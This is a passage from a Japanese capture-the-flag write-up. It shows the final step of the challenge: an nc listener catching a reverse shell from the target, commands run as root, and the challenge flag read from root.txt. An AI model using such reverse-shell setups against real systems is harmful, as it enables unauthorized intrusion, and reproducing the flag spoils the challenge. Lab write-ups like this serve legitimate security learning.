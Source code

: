 あとは、nc などを使ってコネクトバックを待機します。しばらくするとリバースシェルが実行され、無事にroot.txtを取得できました。これで本チャレンジは終了です。

```shell=
$ nc -lnvp 443
listening on [any] 443 ...
connect to [<attacker_ip>] from (UNKNOWN) [<target_ip>] 46732
sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat root.txt
flag{Y0ur_r1ght_h4nd_15_4_b4d455_h4ck3r_ju5t_l1k3_m3!!}

```
### flag(root.txt)
`flag{Y0ur_r1ght_h4nd_15_4_b4d455_h4ck3r_ju5t_l1k3_m3!!}`